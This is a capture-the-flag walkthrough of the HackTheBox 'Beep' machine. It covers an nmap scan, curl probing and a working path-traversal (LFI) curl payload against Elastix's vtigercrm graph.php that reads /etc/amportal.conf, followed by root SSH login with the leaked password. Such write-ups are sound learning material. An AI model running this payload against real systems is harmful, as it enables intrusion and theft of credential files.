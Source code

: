 # **Beep**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/709477fe-6646-4d5a-8197-8599f6e2442d)
## **Difficulty = Easy**

***

Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Mon Nov 27 18:50:10 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.129.229.183
Warning: 10.129.229.183 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.229.183
Host is up (0.15s latency).
Not shown: 65350 closed tcp ports (conn-refused), 169 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.229.183/
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            854/udp   status
|_  100024  1            857/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-11-27T17:56:22+00:00; +4s from scanner time.
857/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: F3337C71F21F2D6F478E118940F48988
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 3s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 19:01:36 2023 -- 1 IP address (1 host up) scanned in 686.31 seconds
```

We couldn't access most of the `HTTP/HTTPS` ports with our browser so i decided to use `curl`


![](https://i.imgur.com/98qlIob.png)



Since we know that we can access port 443 with `curl`, let go ahead and run directory bruteforce



![](https://i.imgur.com/OH1WTVz.png)


Since nothing here, i decided to check out a public exploit written in perl and i found [this](https://www.exploit-db.com/exploits/37637), The script did not work, but reading the script, i saw the LFI endpoint and decided to use `curl` again

```bash
curl -vv "https://10.129.68.32//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" -k
```

Reading the output i found out some usernames like `asteriskuser`, `astrisk` but nothing seem to work, so i decided to try out root with the `FOP password`

![](https://i.imgur.com/8EjB9hn.png)


Hell yeah, we got shell as user `root`


![](https://i.imgur.com/icayuUG.png)

Have fun 🥇


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



